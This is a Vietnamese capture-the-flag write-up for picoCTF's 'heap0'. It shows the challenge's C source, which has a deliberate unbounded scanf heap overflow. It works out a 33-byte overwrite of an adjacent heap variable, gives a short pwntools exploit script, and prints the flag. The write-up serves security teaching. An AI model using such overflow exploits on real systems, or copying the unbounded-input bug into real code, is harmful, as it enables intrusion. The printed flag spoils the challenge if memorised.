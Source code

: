 # Heap_0
Đến với bài này, đây là một bài ở mức `dễ` nên chắc nó dễ thật =))))

Challenge cho chúng ta 2 file, một file binary `chall` và một file .c `chall.c`. Mở file .c thì ta có source của chương trình như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap0!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	int rval = scanf("%d", &choice);
	if (rval == EOF){
	    exit(0);
	}
        if (rval != 1) {
            //printf("Invalid input. Please enter a valid choice.\n");
            //fflush(stdout);
            // Clear input buffer
            //while (getchar() != '\n');
            //continue;
	    exit(0);
        }

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Ta thấy chương trình sẽ chạy như sau:
- Khởi tạo heap bằng cách gọi hàm `init()`
- In ra nội dung của heap bằng cách gọi hàm `print_heap()`
- Khởi tạo menu bằng cách gọi hàm `print_menu()`
- Dựa vào input mà người dùng nhập vào, thực hiện các thao tác khác nhau với heap.

Ta nhìn vào hàm `check_win()`.

``` c
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Điều kiện để in flag là dữ liệu được lưu nơi địa chỉ mà `safe_var` trỏ đến khác với chuỗi `bico`.

Tiếp tục nhìn vào hàm `write_buffer()` ta thấy rằng việc nhập vào không giới hạn kí tự (ở lựa chọn số 2).

``` c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

Khởi chạy local:

![image](https://github.com/user-attachments/assets/4819b7d2-cb88-4fba-981b-bc44678ce2d2)

Ta thấy input nhập vào sẽ bắt đầu lưu trữ từ địa chỉ `0x627d6e71a6b0` và địa chỉ mà con trỏ `safe_var` trỏ đến là `0x627d6e71a6d0`. Ta có offset là 32 bytes, giờ ta sẽ nhập 33 kí tự 'a' để làm thay đổi dữ liệu được lưu trữ ở địa chỉ `0x627d6e71a6d0`.

![image](https://github.com/user-attachments/assets/ebed478d-ab92-4010-9520-435676c86c03)

Ta thấy dữ liệu được lưu trữ ở địa chỉ `0x627d6e71a6d0` đã thành a.

![image](https://github.com/user-attachments/assets/5e77f26a-51cb-41c3-9a3d-f54ef6fa15d4)

Và tôi `Win`, giờ ta có file exploit như sau:

``` python
from pwn import *

#p = process('./chall')
p = remote('tethys.picoctf.net', 53076)
write = b'2'
flag = b'4'
payload = 33 * 'a'
p.sendline(write)
p.sendline(payload)
p.sendline(flag)
p.interactive()
```

Và ta có flag:
```
picoCTF{my_first_heap_overflow_0c473fe8}
```

